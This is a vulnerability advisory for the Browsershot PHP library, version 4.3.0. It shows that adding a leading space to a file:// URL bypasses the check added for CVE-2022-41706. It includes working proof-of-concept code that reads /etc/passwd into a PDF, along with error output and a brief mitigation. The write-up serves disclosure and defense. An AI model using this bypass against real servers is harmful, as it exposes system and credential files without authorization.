 # Description

Browsershot version 4.3.0 allows an external attacker to remotely obtain arbitrary local files. This is possible because the application does not validate the URL protocol passed to the Browsershot::url method.

# Vulnerability
This vulnerability occurs because the application does not validate the URL protocol passed to the Browsershot::url method. Thanks to this, an attacker can point to internal server files, which will be reflected in the PDF that will be generated,Although a fix was made in version 3.57.3, it can still be bypassed!


# Bypass CVE-2022-41706
In versions after 3.57.3, we can see that in the Browsershot.php setUrl function, attempts were made to use string prefix checks for defense, whether it's with Helpers::stringStartWith or PHP's built-in str_starts_with function. However, both are vulnerable to attacks involving spaces.

# PoC 
There is a vulnerable example with : Browsershot.php
* browsershot version with 4.3.0

**Browsershot.php** line 258~268

```php=
    public function setUrl(string $url): static
    {
        if (str_starts_with(strtolower($url), 'file://')) {
            throw FileUrlNotAllowed::make();
        }

        $this->url = $url;
        $this->html = '';

        return $this;
    }
```

## Exploit

* We will write an exploit based on this [PoC](https://fluidattacks.com/advisories/eminem/)

```php=
<?php 

require './vendor/autoload.php';
use Spatie\Browsershot\Browsershot;

Browsershot::url('file:///etc/passwd')
    ->noSandbox()
    ->save('poc.pdf');
```

* After executing, we can see an error message.

```php=
root@c19dc1ee2dc0:/var/www/html# php -f poc.php 

Fatal error: Uncaught Spatie\Browsershot\Exceptions\FileUrlNotAllowed: An URL is not allow to start with file:// in /var/www/html/vendor/spatie/browsershot/src/Exceptions/FileUrlNotAllowed.php:11
Stack trace:
#0 /var/www/html/vendor/spatie/browsershot/src/Browsershot.php(261): Spatie\Browsershot\Exceptions\FileUrlNotAllowed::make()
#1 /var/www/html/vendor/spatie/browsershot/src/Browsershot.php(73): Spatie\Browsershot\Browsershot->setUrl('file:///etc/pas...')
#2 /var/www/html/poc.php(6): Spatie\Browsershot\Browsershot::url('file:///etc/pas...')
#3 {main}
  thrown in /var/www/html/vendor/spatie/browsershot/src/Exceptions/FileUrlNotAllowed.php on line 11
```

* However, we can bypass it by adding a space before "file:///etc/passwd"

```php=
<?php 

require './vendor/autoload.php';
use Spatie\Browsershot\Browsershot;

Browsershot::url(' file:///etc/passwd')
    ->noSandbox()
    ->save('poc.pdf');
```

* And we execute the exploit again.

![image](https://hackmd.io/_uploads/H1S8Bc2iC.png)

* We successfully read the contents of /etc/passwd.

## Mitigation 

* Add a whitelist to enhance input validation.

## Reference

https://fluidattacks.com/advisories/eminem/
https://github.com/spatie/browsershot
https://github.com/spatie/browsershot/blob/main/src/Browsershot.php
